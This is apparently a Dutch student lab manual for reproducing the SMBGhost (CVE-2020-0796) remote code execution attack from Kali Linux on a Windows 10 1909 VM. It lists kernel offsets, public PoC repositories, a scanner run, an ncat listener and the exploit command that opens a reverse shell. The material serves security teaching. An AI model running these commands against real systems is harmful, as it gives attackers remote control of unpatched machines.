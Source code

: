 # Handleiding NPE 

SMBGhost Vulnerability  
CVE-2020-0796
-----------------------------
Doel: Remote Excecution   
Target: Windows 10-1909   
Aanval: Kali Linux  
-----------------------------
Team:
- Demi De Fré   
- Abdul Rehman Shafaquet    
- Arthur Neirynck  

### Algemeen
Alle informatie en documentatie is beschikbaar op onze github repo:
[Github team](https://github.com/abdulnsh/cybersecurity_vr_opdracht).

## Deployment stappenplan

### Stap 1: Downloaden ISO & VDI
* Download het .vdi bestand voor de [Kali Linux](https://www.osboxes.org/kali-linux/) VM.
* Download het .ISO bestand voor de [Windows 10-1909](https://archive.org/download/win-10-1909-english-x-64) VM.  

### Stap 2: Vboxmanage automatisatie script's 
* Open een command prompt naar keuze.
* Run het bash script `./kali.sh` om de Kali Linux VM aan te maken.
* Run het bash script `./windwos1909.sh` om de Windows VM aan te maken.

### Stap 3: Inloggen op de VM's
* Kali inloggegevens (default)
* username: osboxes
* wachtwoord: osboxes.org
* Bij de windows zijn er geen inloggegevens nodig.


## Cheatsheet aanval

### IP-tabel

| VM              | IP Address   |
| ----------------| ------------ |
| Windows 10-1909 | 192.168.1.17 |
| Kali Linux VM   | 192.168.1.20 |

* Ip adressen kunnen veranderen (best checken)

## Inleiding

Hier vermelden onze gebruikte bronnen: 
- [RCE-script](https://github.com/jamf/CVE-2020-0796-RCE-POC/tree/master)
- [Vulnerability Scanner](https://github.com/ButrintKomoni/cve-2020-0796)
- [Extra](https://github.com/jiansiting/CVE-2020-0796-Scanner) (niet nodig, ter info)

### Offsets informatie en uitleg
Voor elke versie van Windows 10 hebben we eerst hun offsets nodig.   
Offsets zijn specifieke geheugenadressen binnen bepaalde DLL's of system modules op een Windows-machine. Deze adressen worden gebruikt door het Python-script [SMBLeedingGhost.py](https://github.com/abdulnsh/cybersecurity_vr_opdracht/blob/main/aanval_script/rce/SMBleedingGhost.py) om specifieke functies of gegevens in het geheugen te benaderen en te manipuleren, wat nodig is voor het uitvoeren van de exploit.

[calculate_target_offsets.bat](https://github.com/abdulnsh/cybersecurity_vr_opdracht/blob/main/aanval_script/rce/calc_target_offsets.bat) is een script dat die offsets kan berekenen en die gelden voor elke Windows 10 die dezelfde versie runt. Hier zijn enkele offset-waarden: (ter info)

| Windows 10 (Version 1909) Builds | V10.0.18363.418 | V10.0.18363.535 - V10.0.18363.628 | V10.0.18363.693 | V10.0.18363.752 | V10.0.18363.365 |
| -------------------------------- | --------------- | --------------------------------- | --------------- | --------------- | --------------- |
| srvnet!SrvNetWskConnDispatch     | 0x2D170         | 0x2D170                           | 0x2D170         | 0x2D170         | 0x2D170         |
| srvnet!imp_IoSizeofWorkItem      | 0x32210         | 0x32210                           | 0x32210         | 0x32210         | 0x32210         |
| srvnet!imp_RtlCopyUnicodeString  | 0x32288         | 0x32288                           | 0x32288         | 0x32288         | 0x32288         |
| nt!IoSizeofWorkItem              | 0x12C380        | 0x12C400                          | 0x6D7A0         | 0x12C410        | 0x12C370        |
| nt!MiGetPteAddress               | 0xBADC8         | 0xBA9F8                           | 0xF1D28         | 0xBA968         | 0xBAFA8         |

Voor onze versie (18363.418) hebben we de volgende nodig :

* 'srvnet!SrvNetWskConnDispatch': 0x2D170,   
=> Deze offset wijst bijvoorbeeld naar een functie in de srvnet module die wordt gebruikt voor het dispatchen van netwerkverbindingen. Het offsetadres, in dit geval 0x2D170, geeft de locatie aan van deze functie in het geheugen
* 'srvnet!imp_IoSizeofWorkItem': 0x32210,
* 'srvnet!imp_RtlCopyUnicodeString': 0x32288,
* 'nt!IoSizeofWorkItem': 0x12C370,
* 'nt!MiGetPteAddress': 0xBAFA8

Deze offsets zijn van cruciaal belang voor het script om de juiste functies en gegevens te vinden en te manipuleren voor het uitvoeren van de exploit.

### Stap 1: Git clone op Kali Linux 
* Voor de makkelijke werking is het handig om de volgende repo's te clonen.
* Clone de volgende github repository in de Desktop :

1. `cd Desktop`
2. `git clone https://github.com/ButrintKomoni/cve-2020-0796` (scanner)
3. `git clone https://github.com/jamf/CVE-2020-0796-RCE-POC/tree/master` (RCE exploit)
```
┌──(osboxes㉿osboxes)-[~/Desktop]
└─$ tree
.
├── CVE-2020-0796-RCE-POC
│   ├── README.md
│   ├── SMBleedingGhost.py              - > dit is onze main script voor RCE
│   ├── calc_target_offsets.bat
│   ├── demo.gif
│   ├── smbghost_kshellcode_x64.asm
│   └── tools
│       ├── cdb.exe
│       ├── dbghelp.dll
│       ├── dumpbin.exe
│       ├── link.exe
│       ├── msvcp140.dll
│       ├── symsrv.dll
│       ├── tbbmalloc.dll
│       ├── vcruntime140.dll
│       └── vcruntime140_1.dll
└── cve-2020-0796
    ├── README.md
    └── cve-2020-0796-scanner.py            -> dit is onze scanner

4 directories, 16 files
```

### Stap 2: Vulnerability check
* We controleren eerst of de target (Windows 10-1909) vulnerable is met een [python scanner script](https://github.com/abdulnsh/cybersecurity_vr_opdracht/blob/main/aanval_script/scanner/cve-2020-0796-scanner.py).  
* Parameter = ip van target
```
┌──(osboxes㉿osboxes)-[~/Desktop/cve-2020-0796]
└─$ python3 cve-2020-0796-scanner.py 192.168.1.17
Vulnerable
```

### Stap 3: Remote excecution uitvoeren
* Open een terminal op de Kali Linux en voer de volgende commando's uit.
* `ncat -lvp <port>` : Dit zal onze toegang zijn naar onze windows (dit kan ncat -lvp 1234 zijn)
* `SMBleedingGhost.py <target_ip> <reverse_shell_ip> <reverse_shell_port>`  
=>`target_ip` = 192.168.1.17    
=>`reverse_shell_ip` en `reverse_shell_port`= ip address en poort waarop ncat luistert.
* Het commando ziet er dus als volgt uit: `python3 SMBleedingGhost.py 192.168.1.17 192.168.1.20 1234`

### Stap 4: Resultaat
* Na een tijdje zal de ncat terminal waarop er geluisterd wordt, veranderen naar een Windows 10 shell.
* Nu heb je vanop afstand toegang, via een cmd, tot de target en kan je willekeurige code uitvoeren.

![alt text](images/image-2.png)

![alt text](images/image-1.png)

![alt text](images/image-3.png)










